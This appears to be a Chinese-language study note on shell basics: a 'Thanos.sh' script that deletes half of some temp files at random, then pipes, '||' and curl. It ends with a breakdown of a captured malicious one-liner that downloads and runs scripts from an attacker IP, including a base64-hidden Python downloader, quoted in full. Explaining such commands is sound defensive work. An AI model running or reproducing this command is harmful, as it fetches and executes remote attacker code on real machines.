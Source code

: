 Thanos.sh
```python
#!/bin/sh
#filename 为本shell的文件名，例如这里是Thanos.sh
filename=${0##*/}
rm_dir="./temp"
# 在当前目录下创建一个temp文件夹，并在temp文件夹下创建10个文件（1.txt，2.txt。。。）
function touch_file()
{
    if [[ ! -d ${rm_dir} ]]; then
        mkdir -p ${rm_dir}
    fi

    cnt=10
    while [[ cnt -gt 0 ]];
    do
        touch ${rm_dir}/${cnt}.txt
        let cnt-=1
    done
}

function rm_files()
{
    #shuf是linux产生随机序列命令，gshuf大致也差不多一个意思
    sf="shuf"
    if [[ "`uname`" == "Darwin" ]]; then
        sf="gshuf"
    fi
    #让files获取所有文件名（除了自身）
    files=()
    while read line;
    do
        files+=("${line}")
    done <<< "`find ${rm_dir} -not -name "${filename}" -type f`"
    #nums为删除文件的数量
    let nums=${#files[*]}/2
    #删除一半文件
    echo ${files[*]} | xargs printf "%s\0" | ${sf} -z -n ${nums} | awk "{print \"xargs -0 -- sudo rm -f \" \$0}"
    echo "nums: ${nums}"
}

touch_file
rm_files

# Explanation
## Step 1: Get the count of files in current path divided by two.
## Step 2: Get all the files in current path and print in one line.
## Step 3: Turn half of the second step output into standard input randomly.
```

##### ｜管道符号

[https://blog.51cto.com/litaotao/1187983](https://blog.51cto.com/litaotao/1187983)

用法：命令1 | 命令2
机制：上一个的命令输出作为下一个命令的输入

```
ls -a | grep bash
```

.bash_history
.bash_logout
.bash_profile
.bashrc
grep用来从一个文件中找出匹配指定关键字的那一行，并送到标准输出,结合管道，我们
通常用它来过滤搜索结果.

##### || 逻辑或

       用法：命令1 || 命令2
       机制：如果命令1执行成功，不执行命令2；否则，
           才执行命令2

#### curl

[https://www.ruanyifeng.com/blog/2019/09/curl-reference.html](https://www.ruanyifeng.com/blog/2019/09/curl-reference.html)

是常用的命令行工具，用来请求 Web 服务器。它的名字就是客户端（client）的 URL 工具的意思

```bash
curl https://www.example.com
```

上面命令向`www.example.com`发出 GET 请求，服务器返回的内容会在命令行输出。

`-s`参数将不输出错误和进度信息。

```bash
$ curl -s https://www.example.com
```

#### 一个恶意命令解析

```
/bin/bash -c (curl -s http://80.71.158.96/xms || wget -q -O - http://80.71.158.96/xms || lwp-download http://80.71.158.96/xms /tmp/xms) | bash -sh; bash /tmp/xms; rm -rf /tmp/xms; echo cHl0aG9uIC1jICdpbXBvcnQgdXJsbGliO2V4ZWModXJsbGliLnVybG9wZW4oImh0dHA6Ly84MC43MS4xNTguOTYvZC5weSIpLnJlYWQoKSkn | base64 -d | bash -
```

/bin/bash -c 后面加命令

curl -s [http://80.71.158.96/xms](http://80.71.158.96/xms) || wget -q -O - [http://80.71.158.96/xms](http://80.71.158.96/xms) || lwp-download [http://80.71.158.96/xms](http://80.71.158.96/xms) /tmp/xms

；是指可以拼接命令

bash /tmp/xms 执行下载的脚本

rm -rf /tmp/xms 删除文件

echo cHl0aG9uIC1jICdpbXBvcnQgdXJsbGliO2V4ZWModXJsbGliLnVybG9wZW4oImh0dHA6Ly84MC43MS4xNTguOTYvZC5weSIpLnJlYWQoKSkn | base64 -d | bash -

解密这个使用base64编码的命令
![image.png](https://cdn.nlark.com/yuque/0/2022/png/2652737/1656506996614-73ab770a-6902-4951-b1f9-b637986699ef.png?x-oss-process=image%2Fresize%2Cw_750%2Climit_0)
实际上是下载了d.py这个文件并读取执行
![image.png](https://cdn.nlark.com/yuque/0/2022/png/2652737/1656507017442-9809cfef-5a47-4cfc-a14a-52ec0fbe68cb.png?x-oss-process=image%2Fresize%2Cw_750%2Climit_0)
整个命令内容就是：

下载并执行xms脚本

下载并执行d.py
